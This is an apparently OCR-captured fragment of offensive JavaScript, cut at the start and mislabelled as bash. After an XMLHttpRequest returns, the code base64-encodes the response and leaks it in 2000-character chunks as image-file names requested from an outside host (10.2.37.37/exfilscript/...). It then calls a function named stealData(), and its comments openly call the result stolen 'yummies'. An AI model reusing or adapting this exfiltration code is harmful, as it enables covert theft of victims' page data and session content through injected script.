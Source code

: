 ```bash
		if (xhr.readyState == XMLHttpRequest.DONE)
		{
			// We have the response back with the data
			var dataResponse = read_body(xhr);

			// Time to exfiltrate the HTML response with the data
			var exfilChunkSize = 2000;
			var exfilData      = btoa(dataResponse);
			var numFullChunks  = ((exfilData.length / exfilChunkSize) | 0);
			var remainderBits  = exfilData.length % exfilChunkSize;

			// Exfil the yummies
			for (i = 0; i < numFullChunks; i++)
			{
				console.log("Loop is: " + i);

				var exfilChunk = exfilData.slice(exfilChunkSize *i, exfilChunkSize * (i+1));

				// Let's use an external image load to get our data out
				// The file name we request will be the data we're exfiltrating
				var downloadImage = new Image();
				downloadImage.onload = function()
				{
					image.src = this.src;
				};

				// Try to async load the image, whose name is the string of data
				downloadImage.src = "http://10.2.37.37/exfilscript/" + i + "/" + exfilChunk + ".jpg";
			}

			// Now grab that last bit
			var exfilChunk = exfilData.slice(exfilChunkSize * numFullChunks, (exfilChunkSize * numFullChunks) + remainderBits);
			var downloadImage = new Image();
			downloadImage.onload = function()
			{
    			image.src = this.src;   
			};

			downloadImage.src = "http://10.2.37.37/exfilscript/" + "LAST" + "/" + exfilChunk + ".jpg";
			console.log("Done exfiling chunks..");
		}
	}
}

stealData();

```
